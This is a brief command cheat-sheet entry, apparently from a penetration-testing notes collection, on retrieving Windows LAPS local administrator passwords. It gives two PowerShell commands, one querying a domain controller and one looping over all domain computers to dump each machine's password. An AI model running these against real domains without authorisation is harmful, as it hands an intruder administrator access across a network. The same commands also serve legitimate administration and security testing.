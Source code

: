 # LAPS

% laps, password

## get laps passwords
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## get all machine passwords
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
